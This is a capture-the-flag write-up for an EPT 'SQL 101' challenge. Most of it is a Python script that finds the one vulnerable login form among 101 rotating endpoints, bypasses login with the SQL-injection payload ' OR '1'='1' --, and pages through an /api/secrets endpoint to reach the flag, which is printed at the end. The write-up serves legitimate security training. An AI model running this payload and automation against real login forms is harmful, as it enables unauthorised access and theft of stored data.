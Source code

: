 # Writeup
author: th@m456 @ FesseMisk

## SQL 101
![alt text](image.png)

### Solution

We use EPT-box to create an instance for the challenge. The link provided shows us 101 login forms, whereas only one is vulnerable for SQL injection. From the challenge name, I assume it should be an easy standard type of SQL injection, which it turned out to be.

![alt text](image-1.png)
I created a script to automate the whole process, but I will explain the steps.

1. We need to find the vulnerable form, exploit it, and get the flag in under 60 seconds, as our sessions will time out. Each form has its own endpoint, which are rotated every 30 seconds - meaning we must gather the endpoints right before we attempt SQL injections.

2. After successful login on the vulnerable form, we now have under 60 seconds to find the flag. We can a reference to some "API docs", eventually leading us to a `api/secrets` endpoint.

3. In the `secrets` endpoint, we can extract pages of "secrets". There are a total av 126 pages containing 20 secrets each page, and we must traverse them all to find the flag.

So, I used the script below to do all steps in one go.
The scipt is not perfect, as the code was not fast enough to attempt all 101 forms in the 60s time of session validity. Therefore I opened several shells and executed the same script simultanously, only changing the pages-`range` in the loop command looking for the flag. I could've improven the code to use ThreadPool to solve that issue, but time was too important - so I did was felt was easiest.

```python
import requests
from bs4 import BeautifulSoup
import time

# Constants
BASE_URL = "https://fessemisk-f66b-allthoseforms.ept.gg"
INJECTION_PAYLOAD = "' OR '1'='1' --"
username = "' OR '1'='1' --"
SESSION_REFRESH_INTERVAL = 60  # Session validity time in seconds
URI_REFRESH_INTERVAL = 30      # URI refresh interval in seconds

def create_session():
    """
    Creates and configures a new session with appropriate headers.
    """
    session = requests.Session()
    session.headers.update({
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Origin": BASE_URL,
        "Referer": f"{BASE_URL}/login",
        "Content-Type": "application/x-www-form-urlencoded"
    })
    return session

def get_login_uris(session):
    """
    Fetches the login page and extracts current login form URIs.
    """
    try:
        response = session.get(f"{BASE_URL}/login", timeout=5)
        response.raise_for_status()

        soup = BeautifulSoup(response.text, 'html.parser')
        form_uris = [form.get('action') for form in soup.find_all('form') if form.get('action')]

        print(f"[DEBUG] Fetched {len(form_uris)} URIs: {form_uris}")
        return form_uris
    except requests.RequestException as e:
        print(f"[ERROR] Error fetching login URIs: {e}")
        return []

def request_secrets_page(session, page, cookies):
    """
    Requests a specific page from /api/secrets and prints the response.
    """
    api_secrets_url = f"{BASE_URL}/api/secrets?page={page}&page_size=20"
    try:
        api_secrets_response = session.get(api_secrets_url, cookies=cookies, timeout=5)
        print(f"[!] GET /api/secrets response for page {page}:\n{api_secrets_response.text}")
    except requests.RequestException as e:
        print(f"[ERROR] Failed to retrieve page {page} of /api/secrets: {e}")

def test_sql_injection(session, uri):
    """
    Sends SQL injection payload to the specified URI, follows redirection, and checks for success or failure.
    """
    url = f"{BASE_URL}{uri}"
    data = {"username": username, "password": INJECTION_PAYLOAD}

    try:
        # Send SQL injection attempt
        response = session.post(url, data=data, allow_redirects=False, timeout=5)

        # Follow redirect if response is 302
        if response.status_code == 302:
            redirect_url = response.headers.get("Location")
            if redirect_url:
                redirect_response = session.get(f"{BASE_URL}{redirect_url}", timeout=5)

                # Check for invalid login message on the redirected page
                if "Invalid login credentials" not in redirect_response.text:
                    print(f"[!] Possible success on {url}. Full Response:\n{redirect_response.text}")

                    # Extract session cookies
                    cookies = session.cookies.get_dict()

                    # Loop through pages and check for the flag
                    for page in range(1, 30):
                        request_secrets_page(session, page, cookies)
                        time.sleep(1)  # Optional: delay between requests
                        if "EPT{" in redirect_response.text:
                            print(f"[!] Flag found on page {page}")
                            break

                    return True
    except requests.RequestException as e:
        print(f"[ERROR] Request error on {url}: {e}")

    return False

def main():
    start_time = time.time()
    session = create_session()

    while True:
        # Refresh session every 60 seconds
        if time.time() - start_time >= SESSION_REFRESH_INTERVAL:
            session = create_session()
            start_time = time.time()
            print("\n[DEBUG] Session refreshed.")

        # Fetch and test login URIs
        uris = get_login_uris(session)
        for uri in uris:
            if test_sql_injection(session, uri):
                print("[!] Injection successful, vulnerable endpoint found.")
                return  # Exit if vulnerable endpoint is found

        print("[DEBUG] Waiting 30 seconds before the next attempt...")
        time.sleep(URI_REFRESH_INTERVAL)

if __name__ == "__main__":
    main()
```
This code found us our flag in secret no. 1592:

**{"id":1592,"text":"EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}**
